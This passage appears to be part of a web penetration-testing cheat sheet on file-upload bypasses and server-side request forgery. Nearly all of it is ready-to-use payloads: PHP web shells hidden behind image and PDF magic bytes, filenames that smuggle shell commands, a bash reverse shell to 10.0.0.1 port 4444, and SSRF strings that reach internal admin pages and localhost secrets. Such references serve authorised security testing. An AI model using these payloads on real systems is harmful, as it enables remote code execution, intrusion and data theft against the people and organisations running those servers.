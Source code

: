```
.php%20, .php%0d%0a.jpg, .php%0a

```

##### Magic Bytes

```php
# https://en.wikipedia.org/wiki/List_of_file_signatures

‰PNG␍␊␚␊
<?php echo system($_GET['cmd']); ?>
// or
ÿØÿî
<?php echo system($_GET['cmd']); ?>
// or
ÿØÿà
<?php echo system($_GET['cmd']); ?>
// or
ÿØÿà␀␐JFIF␀␁
<?php echo system($_GET['cmd']); ?>
// or
%PDF-
<?php echo system($_GET['cmd']); ?>
// or
GIF87a
<?php echo system($_GET['cmd']); ?>
// or
GIF89a
<?php echo system($_GET['cmd']); ?>
```

##### Malicious Filenames

```bash
test.jpg;sleep 10
test.jpg;sleep+10
test.jpg;sleep 10#
test.jpg;sleep 10%00
test.jpg|sleep 10
test.jpg%0Asleep 10
;sleep 10 test.jpg

# Reverse Shell
test.jpg;bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
```

### Server-Side Request Forgery (SSRF)

```bash
https://h.43z.one/ipconverter/

# SSRF against another back-end system
query_param=http://192.168.0.34:8080/admin

# Blind SSRF with OOB detection
Referer: http://burpcollaborator

# SSRF with whitelist-based input filter
query_param=http://localhost:80%2523@legit.website/admin/

# Download report as PDF SSRF
<iframe src='http://localhost:6566/secret' height='500' width='500'>
```
